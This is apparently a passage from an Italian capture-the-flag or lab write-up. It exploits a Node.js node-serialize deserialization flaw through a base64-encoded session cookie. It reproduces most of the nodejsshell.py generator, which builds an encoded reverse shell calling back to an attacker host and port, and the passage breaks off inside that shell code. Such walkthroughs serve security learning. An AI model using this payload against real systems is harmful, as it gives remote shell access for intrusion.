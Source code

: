 In sintesi, il codice JavaScript gestisce l'interazione dell'utente con il pulsante "Invia", raccoglie l'indirizzo email inserito, imposta un cookie di sessione e invia l'indirizzo email al server tramite una richiesta POST. Dopo un breve ritardo, la pagina si ricarica per mostrare eventuali aggiornamenti.

Quindi cosa succede qui? Il codice che gestisce la richiesta è disponibile nel codice sorgente della pagina, ma ci sono 4 passaggi fondamentali:

1. Una richiesta POST invia l'input dell'utente al server nel `?email=`parametro query
2. Il server risponde alla richiesta POST con un'intestazione SetCookie con un oggetto JSON codificato in base64 contenente l'input dell'utente
3. La pagina viene ricaricata (vedi `window.location.reload`nella fonte), effettuando una richiesta GET che invia il nuovo cookie al server
4. Il server risponde alla richiesta GET, aggiungendo il valore ricevuto nel cookie a "Ti terremo aggiornato su: VALUE"

Una ricerca su Google per "vulnerabilità JSON di nodejs" mostra un articolo su un [bug di deserializzazione JSON nel pacchetto npm "node-seralize".](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

La vulnerabilità nell'applicazione web risiede nel fatto che legge un cookie dalla richiesta HTTP, esegue la decodifica base64 del valore del cookie e lo passa alla funzione. Poiché il cookie è un input non attendibile, un aggressore può creare un valore di cookie dannoso per sfruttare questa vulnerabilità. Ho utilizzato  [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) per generare un payload di reverse shell. `unserialize()`

```
nano nodejsshell.py
```
```
#!/usr/bin/python
# Generator for encoded NodeJS reverse shells
# Based on the NodeJS reverse shell by Evilpacket
# https://github.com/evilpacket/node-shells/blob/master/node_revshell.js
# Onelineified and suchlike by infodox (and felicity, who sat on the keyboard)
# Insecurety Research (2013) - insecurety.net
import sys

if len(sys.argv) != 3:
    print "Usage: %s <LHOST> <LPORT>" % (sys.argv[0])
    sys.exit(0)

IP_ADDR = sys.argv[1]
PORT = sys.argv[2]


def charencode(string):
    """String.CharCode"""
    encoded = ''
    for char in string:
        encoded = encoded + "," + str(ord(char))
    return encoded[1:]

print "[+] LHOST = %s" % (IP_ADDR)
print "[+] LPORT = %s" % (PORT)
NODEJS_REV_SHELL = '''
var net = require('net');
var spawn = require('child_process').spawn;
HOST="%s";
PORT="%s";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
```